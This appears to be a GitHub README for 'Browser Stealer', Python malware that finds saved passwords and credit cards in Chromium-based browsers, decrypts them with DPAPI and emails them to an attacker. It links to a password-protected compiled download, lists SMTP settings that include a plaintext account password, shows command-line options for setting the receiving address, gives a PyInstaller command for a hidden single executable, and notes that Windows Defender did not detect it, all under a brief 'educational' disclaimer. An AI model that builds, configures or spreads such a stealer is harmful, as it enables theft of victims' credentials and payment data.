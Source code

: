 # Browser Stealer
Finds Internet browsers and applications that use those browsers. It detects files that hold personal information such as username and password, and credit card information. It decrypts these files using DPAPI. It transmits this information to the attacker via email.

**1) The algorithm used by the program for saved passwords is shown in the graphic below.**
![key1](https://user-images.githubusercontent.com/71177413/166139625-fd15d6ea-6355-4a80-ae83-15b6437b54e5.JPG)

**2) The algorithm used by the program for saved credit cards is shown in the graphic below.**
![key2](https://user-images.githubusercontent.com/71177413/166139633-a23d31a5-d098-440d-ba6b-ae36995777b7.JPG)


Supported Browsers
---
This python program gets all the saved passwords and credit cards from chromium based browsers supports chromium 80 and above!
<dl>
  <dt> Supported some browsers
  <dd>
  <dd> ✔ Chrome
  <dd> ✔ Brave
  <dd> ✔ Edge (Chromium)
  <dd> ✔ Opera
  <dd> ✔ Yandex
  <dd> ✔ Other browsers
</dl>


The Compiled Version of the Program Can be Downloaded from the Links Below.
---
<dl>
  <dt> Browser Stealer
  <dd>
  <dd> Browser_Stealer.rar --> zip password: "BrOWserSteaLEr2022"
  <dd> Link = https://drive.google.com/file/d/1Q2XkhU64vHzKfyxmuPh-c9U3JdoqFeyS/view?usp=sharing
</dl>

Requirements
---
Required libraries:  pywin32, pycryptodome, pyinstaller

```
pip install pywin32
pip install pycryptodome
pip install pyinstaller
```

"pyinstaller" will be used to make the code one piece executable


Settings
---
![A](https://user-images.githubusercontent.com/71177413/166140037-c624e1f9-eaf7-48dc-953b-c28ad4e80d15.JPG)

```
    SMTP_SERVER      = "smtp-mail.outlook.com"           # SMTP server for e-mail to be sent
    SMTP_PORT        = "587"                             # SMTP port for e-mail to be sent
    SENDER_ADDRESS   = "ajehdfgruewsf@outlook.com"       # Sender e-mail address
    SENDER_PASS      = "uy8mNbvx4c9agehe5uwk6wxv"        # Sender e-mail password
    RECEIVER_ADDRESS = "python.test.email@outlook.com"   # Receiver e-mail address
```

<dl>
  <dt>
  <dt> Some settings can be changed with initial parameters if desired.
  <dd>
  <dd> -smail:***          ==> sets sender e-mail address   ["SENDER_ADDRESS"]
  <dd> -spass:***          ==> sets sender e-mail password  ["SENDER_PASS"]
  <dd> -rmail:***          ==> sets receiver e-mail address ["RECEIVER_ADDRESS"]
</dl> 

<dl>
  <dt>
  <dt> Example:
  <dd>
  <dd> Browser_Stealer.exe  -smail:gungor@outlook.com -spass:123jKl789 -rmail:receiver@mail.com
  <dd>
</dl>

![5](https://user-images.githubusercontent.com/71177413/166140529-f69a38f2-59ef-4e8c-a577-2b548dc82245.JPG)


Compilation
---

```
pyinstaller --onefile --noconsole --icon=Browser_Stealer.ico Browser_Stealer.py
```

Some Screenshot of the Working of the Program
---

**Screenshot [1] (Depending on your mail settings, e-mails may fall into junk email.)**
![2](https://user-images.githubusercontent.com/71177413/166143957-9f4f56f2-78a6-478b-be33-cc359767bc75.JPG)


**Screenshot [2] (When the program runs, it sends the information to the e-mail address in its settings.)**
![3](https://user-images.githubusercontent.com/71177413/166144090-8fb3048f-9bca-47f8-beaa-46ecad1669cd.JPG)


**Screenshot [3] (The e-mail address can be changed by sending the parameters to the program at the beginning.)**
![4](https://user-images.githubusercontent.com/71177413/166144022-c4fb9fc9-fe39-43e1-896e-af37611de673.JPG)


Windows Defender
---
As of 01/05/2022, it is not caught by the Windows Defender program. Over time this will change.

Legal Warning
---
Run your tests on virtual machines. The responsibility for illegal use belongs to the user. Shared for educational purposes.
